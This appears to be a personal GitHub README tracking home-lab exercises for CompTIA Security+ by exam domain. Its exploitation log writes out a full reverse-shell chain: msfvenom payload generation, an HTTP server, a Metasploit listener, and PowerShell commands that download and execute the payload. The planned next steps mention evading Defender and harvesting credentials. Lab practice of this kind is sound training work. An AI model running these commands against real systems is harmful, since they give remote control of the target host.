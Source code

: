 # 📊 CompTIA Security+ Lab Tracker (SY0-701)

This tracker maps hands-on labs in my home cybersecurity lab to the CompTIA Security+ objectives. Each section links to lab documentation and tools used.

---

## Domain 1: Attacks, Threats, and Vulnerabilities

| Lab | Status | Link |
|-----|--------|------|
| Network Reconnaissance | ✅ Complete | [nmap-scan.md](./recon_logs/nmap-scan.md)
| Exploiting CVE via Metasploit | ✅ Complete | [metasploit-cve.md](./exploitation/metasploit-cve.md)
# SECURITY+ LAB TRACKER

## Phase 1 – Exploitation

### April 21–22, 2025 — Reverse Shell Attempt via PowerShell + Evil-WinRM

**Objective:** Gain reverse shell access to the Windows Server 2025 target (192.168.1.2) from Kali Linux attacker (192.168.1.3).

**Summary:**

- Used `msfvenom` to generate a reverse shell payload:
  ```bash
  msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.3 LPORT=4444 -f exe -o revshell.exe
  ```
- Hosted payload with Python HTTP server:
  ```bash
  sudo python3 -m http.server 80
  ```
- Set up Metasploit listener:
  ```bash
  use exploit/multi/handler
  set PAYLOAD windows/x64/shell_reverse_tcp
  set LHOST 192.168.1.3
  set LPORT 4444
  run
  ```
- Transferred and attempted to execute payload on Windows Server via PowerShell:
  ```powershell
  Invoke-WebRequest -Uri http://192.168.1.3/revshell.exe -OutFile C:\Users\Public\revshell.exe
  Start-Process C:\Users\Public\revshell.exe
  ```
- **Blocked by Defender**: Execution blocked due to Defender identifying `revshell.exe` as a threat.

**Outcome:** Reverse shell payload delivery succeeded; execution was blocked by Windows Defender. Target is aware of potential threats but lacks enhanced hardening.

**Next Steps:**

- Bypass Defender via encoding/obfuscation
- Explore WMI or scheduled task payload execution
- Capture more credentials using CrackMapExec or responder-based attacks

**📄 Report:** [exploitation/reverse_shell/revshell_deployment_blocked.md](../exploitation/reverse_shell/revshell_deployment_blocked.md)

---


---

## Domain 2: Architecture and Design

| Lab | Status | Link |
|-----|--------|------|
| Risk Assessment & Documentation | ✅ Complete | [risk-assessment.md](./reports/risk-assessment.md)

---

## Domain 3: Implementation

| Lab | Status | Link |
|-----|--------|------|
| Active Directory Setup | ✅ Complete | [PHYSICAL_LAB.md](./PHYSICAL_LAB.md)
| Group Policy Object (GPO) Configuration | ✅ Complete | Coming soon

---

## Domain 4: Operations and Incident Response

| Lab | Status | Link |
|-----|--------|------|
| Sysmon & Windows Defender Detection | ✅ Complete | [sysmon-analysis.md](./post_exploitation/sysmon-analysis.md)
| SIEM Setup (Wazuh) | 🚧 In Progress | Coming soon

---

## Domain 5: Governance, Risk, and Compliance

| Lab | Status | Link |
|-----|--------|------|
| Windows Server Hardening | ✅ Complete | [BUILD_SERVER.md](./BUILD_SERVER.md)

---

## ✅ To-Do List

- [ ] Set up Wazuh SIEM on separate Linux machine
- [ ] Simulate brute-force and phishing attacks
- [ ] Analyze traffic using Wireshark
- [ ] Upload screenshots and logs from labs

---

> ⚠️ All labs are performed in a secure, isolated lab environment for learning and demonstration purposes only.

Happy hacking! 💻🔐

---

> Created for personal Security+ lab prep by [Your Name] – GitHub: [yourusername]

